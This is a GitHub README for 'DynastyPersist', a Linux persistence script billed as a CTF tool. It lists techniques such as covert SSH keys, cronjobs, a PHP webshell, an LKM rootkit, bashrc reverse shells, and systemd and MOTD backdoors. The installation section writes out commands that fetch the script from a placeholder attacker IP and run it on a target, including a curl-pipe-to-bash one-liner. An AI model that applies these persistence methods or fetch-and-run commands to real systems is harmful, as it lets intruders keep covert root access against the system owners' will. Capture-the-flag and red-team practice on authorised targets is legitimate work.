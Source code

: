 
<h1 align="center">DynastyPersist</h1>


* A CTF Tool for Linux persistence (KOTH, Battlegrounds)

* A powerful and versatile Linux persistence script designed for various security assessment and testing scenarios. This script provides a collection of features that demonstrate different methods of achieving persistence on a Linux system.

![GitHub](https://img.shields.io/github/license/trevohack/DynastyPersist)
![GitHub stars](https://img.shields.io/github/stars/trevohack/DynastyPersist)

## Features

1. **SSH Key Generation:** Automatically generates SSH keys for covert access.

2. **Cronjob Persistence:** Sets up cronjobs for scheduled persistence.

3. **Custom User with Root:** Creates a custom user with root privileges.

4. **RCE Persistence:** Achieves persistence through remote code execution (php webshell).

5. **LKM/Rootkit:** Demonstrates Linux Kernel Module (LKM) based rootkit persistence.

6. **Bashrc Persistence:** Modifies user-specific shell initialization files for persistence (aliases / reverse shells). 

7. **Systemd Service for Root:** Sets up a systemd service for achieving root persistence.

8. **LD_PRELOAD Privilege Escalation Config:** Configures LD_PRELOAD for privilege escalation.

9. **Backdooring Message of the Day / Header:** Backdoors system message display for covert access.

10. **Modify an Existing Systemd Service:** Manipulates an existing systemd service for persistence.


## Installation

1. Clone this repository to your local machine:

```bash
$ git clone https://github.com/Trevohack/DynastyPersist.git

$ python3 -m http.server 8080 
root@tyler.thm # cd /opt && wget -c [ATTACKER-IP]:8080/DynastyPersist && cd DynastyPersist && chmod +x dynasty.sh && ./dynasty.sh
``` 

2. One linear
   
```bash
curl -sSL [ATTACKER-IP]8080/DynastyPersist/dynasty.sh | bash
``` 

## Support

For support, email spaceshuttle.io.all@gmail.com or join our Discord server. 

* Discord: `https://discord.gg/WYzu65Hp`

Thank You! 

![icons8-linux](https://github.com/Trevohack/DynastyPersist/assets/136177431/61035f94-039b-4ed9-b463-36a78aa69ab0)
